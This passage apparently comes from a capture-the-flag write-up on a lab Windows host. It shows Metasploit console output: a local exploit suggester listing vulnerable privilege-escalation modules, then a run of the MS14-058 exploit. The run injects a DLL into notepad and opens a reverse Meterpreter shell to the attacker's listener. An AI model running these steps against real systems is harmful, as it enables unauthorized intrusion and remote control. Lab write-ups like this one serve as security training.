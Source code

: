     Matching Modules
    ================
    
       Name                                      Disclosure Date  Rank    Check  Description
       ----                                      ---------------  ----    -----  -----------
       post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
    
    
    msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    msf5 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1
    msf5 post(multi/recon/local_exploit_suggester) > run
    
    [*] 10.10.10.15 - Collecting local exploits for x86/windows...
    [*] 10.10.10.15 - 29 exploit checks are being tried...
    [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
    [+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
    [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    [*] Post module execution completed
    

There’s a lot of stuff to go for.

### MS14-058

I’ll pick one (somewhat at random, though I like this one as it says the
target appears to be vulnerable):

    
    
    msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
    session => 3                                 
    msf5 exploit(windows/local/ms14_058_track_popup_menu) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:4444
    [*] Launching notepad to host the exploit...
    [+] Process 2304 launched.
    [*] Reflectively injecting the exploit DLL into 2304...
    [*] Injecting exploit into 2304...
    [*] Exploit injected. Injecting payload into 2304...
    [*] Payload injected. Executing exploit...        
    [*] Sending stage (179779 bytes) to 10.10.10.15
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
       